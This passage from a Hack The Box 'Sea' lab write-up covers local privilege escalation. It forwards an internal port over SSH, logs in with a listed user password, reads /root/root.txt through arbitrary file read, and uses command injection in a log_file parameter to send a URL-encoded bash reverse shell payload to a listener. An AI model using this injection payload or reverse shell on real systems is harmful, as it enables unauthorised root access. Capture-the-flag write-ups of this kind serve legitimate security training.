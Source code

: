 ```
XDG_SESSION_TYPE=tty
HOME=/home/amay
APACHE_LOG_DIR=/var/log/apache2
LANG=en_US.UTF-8
...SNIP...
```

Nothing interesting can be found. Run `netstat` to check the internal ports connection.

![[Pasted image 20240902200417.png]]

Apparently a lot of internal ports are connected to `localhost:http-alt`, which is TCP port 8080. This indicates that there is a service running on that port. 

###### Port forwarding + exploit
Use `ssh` to do port forwarding and access the port 8080.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sea-linux/CVE-2023-41425]
└─$ ssh -L 8888:localhost:8080 amay@sea.htb
amay@sea.htb's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-190-generic x86_64)
```

Now connect to *localhost:8888*. You will be asked for credentials. Login to the website using `amay`'s credentials `amay:mychemicalromance`.

![[Pasted image 20240902200746.png]]

If we choose a file and analyze, in this case *access.log*, it will print out the contents of *access.log*. This means the request can just be intercepted and modified with the name of another file, granting arbitrary read. Use this to read */root/root.txt*.

![[Pasted image 20240902201853.png]]

###### Getting root shell
The *log_file* parameter above is also vulnerable to command injection, so add a reverse shell payload: `bash -c 'bash -i >& /dev/tcp/10.10.16.2/1338 0>&1'`. 

Final payload for *log_file* parameter:
```
log_file=%3d%2froot%2froot.txt%3bbash%20-c%20'bash%20-i%20%3e%26%20%2fdev%2ftcp%2f10.10.16.2%2f1338%200%3e%261'%20%3bls
```

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sea-linux/CVE-2023-41425]
└─$ nc -lvnp 1338
listening on [any] 1338 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.28] 37196
bash: cannot set terminal process group (32091): Inappropriate ioctl for device
bash: no job control in this shell
root@sea:~/monitoring#
```
